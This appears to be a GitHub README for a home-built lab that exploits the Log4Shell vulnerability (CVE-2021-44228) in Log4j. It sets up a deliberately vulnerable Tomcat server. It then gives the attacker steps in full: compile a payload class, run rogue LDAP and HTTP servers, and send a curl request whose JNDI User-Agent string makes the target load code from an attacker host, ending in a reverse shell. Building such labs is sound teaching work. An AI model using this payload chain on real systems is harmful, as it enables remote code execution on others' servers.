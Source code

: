 # log4j-playground

This is standalone Log4j playground I developed as a semester project to exploit CVE-2021-44228. I found numerous setups, but they all were docker containers and I wanted to build something from scratch. So feel free to use it, modify it, or let me know if there's any issue. Have fun [safely]!

## Core Requirements:
1) Ubuntu Server (LTS)
2) Apache Tomcat 7.0.99
3) Log4j 2.12.0
4) JDK 7u80

We have a simple web application hosted on our Tomcat server solely for the functional purpose (there's no aesthetics :)) to emulate real-world webapp. And when someone enters some text, their input, as well as their user-agent gets logged by log4j for analysis (it's original purpose), and this is what we will exploit by requesting to [our] attacker-controlled LDAP server to provide remote codebase and make the server fetch it and execute it. On kali, spin a LDAP and an HTTP server to provide this codebase and BOOM! We can execute code remotely on the Ubuntu server!

All the files for the Ubuntu-server is in the `mywebapp` folder, and the files required to exploit is in the `ldap-server` folder.


## Vulnerable Ubuntu Server

1) To set-up the server, download Apache Tomcat and set it up in a system folder (ideally). I saved mine as `/opt/apache-tomcat`
2) Download and set-up [Java SE 7](https://www.oracle.com/ca-en/java/technologies/javase/javase7-archive-downloads.html) for the whole system.
3) Then go into the webapp folder and compile our simple web application using the following command. You can use the log4j modules I provided as-is, or go ahead and download from [official Apache archive](https://archive.apache.org/dist/logging/log4j/2.12.0/ "Index of /dist/logging/log4j/2.12.0") and follow further steps
```shell
javac -cp ".:WEB-INF/lib/*" -d WEB-INF/classes/ src/main/java/com/example/LogExampleServlet.java  -nowarn
```

4) Then copy and paste the whole folder in your `/PATH/TO/apache-tomcat/webapps/` folder
```shell
cp -r mywebapp /PATH/TO/apache-tomcat/webapps/
```

And this should load the webpage on `http://ubuntu-server:8080/mywebapp/index.jsp` if you check. And this is all there is to the vulnerable machine set-up!


Note: Idk but on initial testing, it didn't seem to work, and I had to create a .war file and place it in my `webapps` folder. So you can see if the above steps also work for you or not. But if not, try the below (I am not a JAVA programmer, so don't ask me).
```shell
jar cvf mywebapp.war *
cp mywebapp.war ../
```

## Attacker Machine

### Payload

For our actual malicious code, compile the `Evail.java` file using the same vulnerable jdk version present in ubuntu (ie 7u80) (makes sense right?) using the following code.

```Shell
/PATH/TO/jdk1.7.0_80/bin/javac Evail.java -Xlint:deprecation
```

### LDAP Server 
For the LDAP Server, we download the LDAP library from [official LDAP site](https://ldap.com/unboundid-ldap-sdk-for-java/ "UnboundID LDAP SDK for Java") and compile our Server file and execute it. Or you can use the one already included here.
```shell
javac -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```
And on other terminal window, we spin our python server
```shell
python -m http.server 8000
```

### Exploit

Now the only step left to send our payload and let the whole process unfold.
```shell
curl ubuntu-server:8080/mywebapp/logExample -H 'User-Agent: ${jndi:ldap://192.168.56.101:9999/Evail}' 
```

With this a log entry at `/PATH/TO/apache-tomcat/logs/app.log` should be present and a connection back should confirm this. With this, congratulation! You exploited log4j!

#### Log entry:
![app.log entry](https://raw.githubusercontent.com/xmehulx/log4j-playground/main/resources/log4j-entry.png)

#### Connection on Attacker machine
![reverse shell](https://raw.githubusercontent.com/xmehulx/log4j-playground/main/resources/log4j.png)

